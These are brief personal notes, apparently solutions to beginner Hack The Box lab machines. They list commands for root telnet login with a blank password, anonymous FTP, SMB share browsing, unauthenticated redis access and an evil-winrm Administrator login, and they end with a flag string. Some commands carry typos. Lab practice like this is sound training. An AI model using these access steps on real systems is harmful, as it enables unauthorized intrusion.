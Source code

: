 # TIER 0

### Meow  
telnet as "root", blank password

### Fawn
ftp as anonymous, get flag.txt  

### Dancing  
smbclient -L {IP-address}  
smbclient \\\\{IP-address}\\WorkShares  
ls; cd ..; cd James.P; get flag.txt  

### Redeemer  
redis-cli -h {IP-address}
info  
keys *  
get Flag  

$ TIER 1

###  
sudo get install evil-winrm
evit-winrm -u Administrator -p badminton -i {IP-address}
951fa96d7830c451b536be
